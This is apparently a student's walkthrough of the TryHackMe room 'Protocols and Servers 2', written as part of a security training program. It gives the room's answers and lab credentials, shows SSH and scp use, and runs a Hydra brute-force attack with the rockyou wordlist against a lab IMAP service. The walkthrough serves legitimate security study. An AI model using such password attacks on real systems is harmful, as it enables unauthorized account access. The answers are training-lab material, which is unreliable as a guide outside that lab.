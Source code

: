 <h3> Welcome to the <em>TryHackMe ...</em></h3>
<h1>Jr Penetration Tester learning path> Network Security</h1>
<h2>Protocols and Servers 2</h2>
<p>Learn about attacks against passwords and cleartext traffic; explore options for mitigation via SSH and SSL/TLS..</p>
<p>October 24, 2024<br></p>

<div style="display: flex; justify-content: center; align-items: center;">
    <img src="https://github.com/user-attachments/assets/059fcb9a-bc8e-4e4b-a95e-bfe4a4006ba1" width="150px" height="150px"/>
</div>
<br>

![image](https://github.com/user-attachments/assets/4c9fbd68-8291-43fc-b015-6ed759d37403)

<p>Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure. It´s key part of my 26-day-streak in <a href="https://www.wicys.org/benefits/security-training-scholarship/">WiCyS SANS Security Training</a> Stage 2 Program. Let´s get started!!<br><br>
Access this TryHackMe Room clicking <a href="https://tryhackme.com/r/room/protocolsandservers2">Protocols and Servers 2</a></p>

<h2>Task 1 - Introduction</h2>

<p>The <a href="https://tryhackme.com/r/room/protocolsandservers"> Protocols and Servers</a> covered many protocols:<br>

<p>This room introduces the user to a few protocols commonly used, such as:<br>

<ul style="list-style-type:square">
    <li>Telnet</li>
    <li>HTTP</li>
    <li>FTP</li>
    <li>SMPT</li>
    <li>POP3</li>
    <li>IMAP</li>
</ul></p>

<p>Servers implementing these protocols are subject to different kinds of attacks. To name a few, consider:</p>
.....

> 1.1 - <em>We suggest that you start the AttackBox and the virtual machine as you proceed to tackle the following tasks. You can connect to the different services over Telnet for better practice and learning experience.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>


<h2>Task 2 - Sniffing Attack</h2>

<h2>Task 3 - Man-in-the-Middle (MITM) Attack</h2>

<h2>Task 4 - Transport Layer Security (TLS)</h2>

<h2>Task 5 - Secure Shell (SSH)</h2>

> 5.1 - <em>Use SSH to connect to 10.10.88.138 as <code>mark</code> with the password <code>XBtc49AB</code>. Using uname -r, find the Kernel release?</em><br>
>> <strong>5.15.0-119-generic</strong><br>
<p><br></p>

<pre><code>$ ssh mark@10.10.88.138
The authenticity of host '10.10.88.138 (10.10.88.138)' can't be established.
ECDSA key fingerprint is SHA256:/p96HCwgx3tw33jFVI+KrI1D6+g9UitHy9uMT3rJjdI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.88.138' (ECDSA) to the list of known hosts.
mark@10.10.88.138's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri 25 Oct 2024 12:01:20 AM UTC

  System load:  0.16              Processes:             131
  Usage of /:   59.7% of 6.50GB   Users logged in:       0
  Memory usage: 35%               IPv4 address for eth0: 10.10.88.138
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

13 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Mon Sep 20 13:36:07 2021 from 10.20.30.1
mark@ip-10-10-88-138:~$ 
</code></pre>

<p></p>

<pre><code>$ mark@ip-10-10-88-138:~$ uname -r
5.15.0-119-generic
mark@ip-10-10-88-138:~$ 
</code></pre>

<p><br></p>

> 5.2 - <em>Use SSH to download the file <code>book.txt</code> from the remote system. How many KBs did <code>scp</code> display as download size?</em><br>
>> <strong>415</strong><br>
<p><br></p>

<pre><code>$ scp mark@10.10.88.138:/home/mark/book.txt ~
mark@10.10.88.138's password: 
book.txt                                                                  100%  415KB  19.3MB/s   00:00
</code></pre>
<p><br></p>

![image](https://github.com/user-attachments/assets/53df2492-fc1c-4509-ab13-9ea6bdf41843)


<h2>Task 6 - Password Attack</h2>

> 6.1 - <em>We learned that one of the email accounts is <code>lazie</code>. What is the password used to access the IMAP service on 10.10.88.138?</em><br>
>> <strong>butterfly</strong><br>
<p><br></p>

<pre><code>$ hydra -l lazie -P /usr/share/wordlists/rockyou.txt 10.10.88.138 imap
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-10-25 01:40:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking imap://10.10.88.138:143/
[143][imap] host: 10.10.88.138   login: lazie   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-10-25 01:41:00
</code></pre>
<p><br></p>

![image](https://github.com/user-attachments/assets/e2819e22-0a5c-4f7d-9aa9-ca33864e1f0e)


<h2>Task 7 - Summary</h2>

<p>This room covered various protocols, their usage, and how they work under the hood. Three common attacks are:</p>
<p>.........</p>

![image](https://github.com/user-attachments/assets/5706b437-50fb-4625-847c-8ff3cb209c08)

<p>Hydra remains a very efficient tool that you can launch from the terminal to try the different passwords. We summarize its main options in the following table.</p>

![image](https://github.com/user-attachments/assets/1937a220-4dc9-432c-96f2-c9ef87c40c7d)



> 7.1 - <em>By now, you have completed the eighth room of the Network Security module. Please proceed to the final room of this module to test your skills.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>


<h2>Room Complete</h2>

<p>Keep learning, keep growing!<br>
    
<a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a></p>

![image](https://github.com/user-attachments/assets/ed02e782-b132-4dd1-87de-d8b7428074b4)

<h2>WiCyS SANS Security Training, Stage 2</h2>
<p></p>Following I share the status of my journey of my journey in <a href="https://www.wicys.org/benefits/security-training-scholarship/">WiCyS SANS Security Training</a> Stage 2 Program.</p>

![image](https://github.com/user-attachments/assets/001a831f-b466-4c1a-91a9-0e7369e70896)


<p></p>

<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>





